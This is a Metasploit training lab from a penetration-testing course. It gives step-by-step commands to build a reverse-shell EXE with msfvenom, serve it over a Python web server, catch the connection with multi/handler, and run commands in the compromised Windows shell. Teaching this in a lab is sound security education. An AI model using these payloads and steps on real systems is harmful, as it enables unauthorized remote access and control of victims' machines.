Lab 3.1: Metasploit
Objectives
The goal of this lab is to use several features of Metasploit to attack and gain shell access of a Windows machine. To achieve that goal, we use a variety of fantastically useful components of Metasploit, as well as a Python-based web server called http.server.
In particular, here are the components of Metasploit you’ll become familiar with in this lab:
msfvenom: Penetration testers can use this Metasploit Framework program to create malicious standalone payload files. In this lab, you create a malicious EXE file that provides shell access of a Windows machine where it runs.
http.server: This Python-based web server isn’t part of Metasploit but can be used with Metasploit to serve up files in a convenient, flexible manner.
msfconsole: The Metasploit Framework Console program is the command center for Metasploit, letting you configure the framework and interact with sessions on compromised machines.
exploit/multi/handler: This generic exploit lets you configure Metasploit to wait for inbound (that is, "phone home") connections from compromised targets. When this so-called multi/handler receives a connection, it pushes back a Metasploit payload to run on the target.
payload/shell/reverse_tcp: This payload makes a connection FROM the target machine back TO Metasploit, giving you shell access of the target—that is, a reverse shell. It is made from the shell stage and the reverse_tcp stager.
Lab Steps
This lab consists of the following steps, numbered 1 through 5. These same step numbers are included in the architecture figure below as well as the various sections of the lab. Thus, you can follow along as you work through the lab.
Step 1: In Linux, use Metasploit’s msfvenom program to create a malicious EXE file that provides a reverse shell connection back to msfconsole when executed on a Windows machine. Call the malicious file file.exe.
Step 2: Also in Linux, run a simple web server called http.server, which is a Python-based program that can serve up webpages based on files in your file system. You’ll serve up file.exe.
Step 3: Configure msfconsole in Linux to wait for a connection to come in from an exploited Windows machine that runs file.exe. Do this by setting up exploit/multi/handler (known as the multi/handler for short) along with a shell/reverse_tcp payload.
Step 4: On Windows, run a browser and surf to your Linux machine. You’ll be prompted to run file.exe, which you should do.
Step 5: When file.exe runs on Windows, it connects back to the multi/handler in msfconsole on Linux. You’ll see that inbound connection and start interacting with your shell session on the compromised Windows machine.
In each of these steps, you’ll become familiar with using and configuring msfvenom and msfconsole, interacting with an exploited target and controlling sessions to it.

Step 1: Building the malicious file
Run msfvenom with the -help option so that you can get a brief synopsis of its syntax. To use the tool, you need to specify the payload you want with the -p flag, a list of variables for that payload (including port numbers to connect to), and the format of payload you want (including EXE, which you specify with a -f exe):
$ msfvenom -help

To see the formats of payloads you can generate, run:
$ msfvenom --list format
There are a large number of supported formats! The -f exe option creates a Windows executable.
Now run msfvenom to turn windows/shell/reverse_tcp into a standalone file. When it’s executed, you want this payload to connect back to your Linux machine, so you need to configure the LHOST (that’s localhost) to your Linux IP address so it’ll connect back to you. Set the local port for it to connect back to (LPORT) to 8080. Finally, put a -f exe at the end of the list of items for msfvenom. This tells it to create a file in the Windows EXE format. The msfvenom tool simply displays the malicious file on Standard Output, so redirect your resulting malicious file to your file system in /tmp/file.exe.
NOTE: Do not type
YOUR_LINUX_IP_ADDRESS, instead type the IP address of your Linux host (e.g., 10.10.75.123).
$ msfvenom -p windows/shell/reverse_tcp LHOST=YOUR_LINUX_IP_ADDRESS LPORT=8080 -f exe > /tmp/file.exe
Your output should be similar to this:
$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.102 LPORT=8080 -f exe > /tmp/file.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder or badchars specified, outputting raw payload Payload size: 341 bytes Final size of exe file: 73802 bytes
Check the size of file.exe. It should be very close to the 73,802 bytes you see in the screenshot (although it may be one or two bytes bigger, given that your IP address may differ):
$ ls -l /tmp/file.exe
Your output should be similar to this:
$ ls -l /tmp/file.exe -rw-r--r-- 1 sec560 sec560 73802 Jun 5 22:23 /tmp/file.exe
If /tmp/file.exe is not 73,802 bytes (possibly plus a byte or two), delete it (with rm /tmp/file.exe), double-check your syntax for msfvenom, and regenerate it.
Step 2: Serve the file from Linux
Configure a Linux web server to serve up the contents of your /tmp directory (which includes file.exe).
Now cd into the directory whose contents you want to serve up via HTTP:
$ cd /tmp
To finish Step 2, run the Python interpreter to invoke the module called http.server, listening on TCP port 8000 (default):
$ python3 -m http.server
You should see an indication that it is Serving HTTP on 0.0.0.0 on port 8000.

With the http.server running in one window, we now move to Step 3, invoking and configuring Metasploit’s msfconsole.
Step 3: Configure msfconsole
OPEN ANOTHER TERMINAL WINDOW! IN THIS SECOND TERMINAL WINDOW (separate from your http.server command), invoke the msfconsole program.
$ sudo msfconsole
At the msf prompt, issue commands to Metasploit interactively. Tell it to show all the exploit modules it has available:
msf > show exploits
Metasploit features more than 1,800 different exploits for a variety of different software flaws.

We’ll be using exploit/multi/handler, also known for short as the multi/handler. To get more information about the multi/handler and what it does, run:
msf > info exploit/multi/handler
We can use this info command in msfconsole at any time to learn more about the thousands of modules in Metasploit, including exploits, payloads, auxiliary modules, and more. The output provides a handy summary of the use of the module, its variables, and other options for its configuration.

For the multi/handler, note the Description: "This module is a stub that provides all of the features of the Metasploit payload system to exploits that have been launched outside the framework". After configuring the multi/handler, we’ll have a user download our malicious file.exe using a browser and run it manually (thus launching it outside the framework). The file.exe program will connect back into the multi/handler, where we’ll control it.
We can use the multi/handler to wait for a connection from file.exe. Please choose this exploit via the use command:
msf5 > use exploit/multi/handler
Your prompt changes context to say msf exploit(handler) >. That tells you the specific module context msfconsole is now running in. We can now see all the payloads that are compatible with our chosen exploit by running:
msf5 exploit(multi/handler) > show payloads
If you dig through this list, you’ll see that windows/shell/reverse_tcp is one of the payloads that will work with the multi/handler exploit. That’s the one we’ll use so it matches the file.exe payload we created earlier
To select the windows/shell/reverse_tcp payload, use the set command:
msf5 exploit(multi/handler) > set PAYLOAD windows/shell/reverse_tcp
When we built file.exe, we told msfvenom to build a malicious EXE file using this same payload (windows/shell/reverse_tcp). It is interesting to note that if we configure a malicious file like file.exe with a DIFFERENT payload than the payload we send back using the multi/handler in msfconsole, the payload sent back by the multi/handler takes precedence! That is, a Metasploit-generated malicious file (like file.exe) will fetch from the multi/handler a DIFFERENT payload than it was built with and run that different payload, overriding any of its own payload functionality. For this lab, though, we’ll use the same payload in multi/handler as we used in file.exe with msfvenom. Most penetration testers use the same payload, so that is what we’ll do here.
After you select a payload, look at all the options you can configure by running:
msf5 exploit(multi/handler) > show options
Here you can see some important options, such as LHOST and LPORT (the IP address and port number where the delivered payload will connect back to). Let’s set those next.

Set the LHOST for the payload to your Linux IP address so that the payload can connect back to your Linux machine when it runs on the Windows target. (Again, note that we could override the LHOST we built into file.exe if we chose a different address here because the multi/handler payload and its configuration will override the file.exe payload. But we’ll use the same address of our Linux machine for this lab.) We'll set LHOST to 0.0.0.0 so it listens on all interfaces. In this case, our payload file (file.exe) knows where to connect to since we provided the LHOST with msfvenom.
msf5 exploit(handler)> set LHOST 0.0.0.0
We now set the LPORT to 8080 for the connection back:
msf5 exploit(handler)> set LPORT 8080
Confirm your setting by looking at the output of show options.

To activate the multi/handler, please run the following command:
msf5 exploit(handler)> exploit
When you run exploit by itself, it ties up your msfconsole prompt. For more flexibility, we’d like to get msfconsole back and run the multi/handler in the background. To do so, press CTRL-C to stop the multi/handler:
msf exploit(handler)> <CTRL-C>
Now run the exploit command with the -j option to "jobify" the exploit execution:
msf5 exploit(handler)> exploit -j
You should now see an indication that the multi/handler is listening in the background and have your msfconsole prompt back. In msfconsole, you can have an arbitrary number of background jobs running, each doing different things on different ports.
At any time, you can get a list of backgrounded jobs from msfconsole by running:
msf exploit(handler)> jobs

Step 4: Download the file in Windows
Open Chrome and surf to the URL below:
http://YOUR_LINUX_IP_ADDRESS:8000
Note: Do not type
YOUR_LINUX_IP_ADDRESS; instead, use the IP address of your Linux host (e.g., 10.10.75.123).
You should see a listing of the contents of your Linux /tmp directory, which includes file.exe.

Click file.exe. Your browser will download the file and show it in the bottom left of the browser window. Click on the file in the bottom of the browser window.
Your browser should prompt you with a message saying, "Do you want to run or save file.exe..."
Click Run.
In your Linux terminal running http.server, you should see incoming HTTP GET requests.

In your msfconsole terminal on Linux, you should see the inbound session attempt coming in with the text "Command shell session 1 opened", with information about the source and destination IP addresses and port numbers.
If you see a successfully opened session, please move to Step 5 below.
On occasion, the command shell session dies with Metasploit saying, "Command shell session 1 closed. Reason: Died..." If this happens to you, go back to your Windows browser, click file.exe, and then click Run.
Also, at any time, you can run the jobs command to ensure that your multi/handler is still running.
msf5 exploit(handler)> jobs
If your multi/handler isn’t running, you can re-invoke it by using the exploit -j command.
In your Linux msfconsole screen, press Enter until you get the msf > prompt back.

You should see your msf prompt again. You have a session with the target Windows machine running in the background. To get a list of sessions, run:
msf exploit(handler)> sessions -l
That is a dash-lowercase L, not a dash-one.
You now see a list of all sessions Metasploit has open with targets. You likely have one such session with a low session ID number (such as number "1"). Make a note of that session number. Let’s interact with that session by running the sessions command to interact (-i) with session number N:
msf exploit(handler)> sessions -i N

You now should see the C:\> prompt from your Windows machine. We’ve gotten shell access of the Windows target. You can now type a variety of Windows commands into that session.
To see your current privileges, run:
C:\> whoami
To get a list of TCP and UDP activity, run:
C:\> netstat -na
In the output of netstat, you should see an ESTABLISHED connection from your Windows machine to your Linux machine on TCP port 8080.
To get a directory listing of the C:\ directory, run:
C:\> cd C:\ C:\> dir

You can execute arbitrary additional commands at this Windows prompt, exploring the system from the vantage point of an msfconsole session with the target machine.
To see network settings, please run:
c:\> ipconfig
To see your Windows system DNS cache, please run:
c:\> ipconfig /displaydns
To list running processes, please run:
c:\> tasklist
You can explore your Windows machine at the command line.
After you finish interacting with your shell, kill it with CTRL-C.
Look at the output of the jobs command:
msf5 exploit(handler)> jobs
You’ll see that your multi/handler job has finished. It stops when it gets one successfully exploited system. You could restart it as a background job by running the exploit -j command, but you don’t have to do that here.
To get more information about msfconsole’s capabilities for interacting with sessions, run the sessions command with the -h (help) option:
msf5 exploit(handler)> sessions -h
You’ll see here that you can kill sessions from msfconsole by using either the -k flag to kill an individual session number or the -K flag (capital K) to kill all sessions. To finish this lab, kill all sessions:
msf exploit(handler)> sessions -K
That is a capital K.
And, finally, exit msfconsole:
msf5 exploit(handler)> exit
Conclusion
In conclusion, in this lab, you analyzed how to use several components of Metasploit to compromise a target machine and interact with a session to that target. In particular, you used the following hugely valuable components of Metasploit:
msfvenom, which creates malicious files built from Metasploit payloads
msfconsole, which allows us to configure Metasploit and control sessions interactively
exploit/multi/handler, a Metasploit exploit module that listens for connections from outside of the framework and delivers back configured payloads for execution at a target
windows/shell/reverse_tcp, a Metasploit payload module that provides reverse shell access of a target machine
http.server, a non-Metasploit tool that implements a Python-based web server, which is handy for serving up files, including Metasploit-generated attack files
As you have seen, shell access of a target is extremely valuable. In our post-exploitation portion coming up later in the course, we’ll look at ways to leverage this shell to further the penetration test.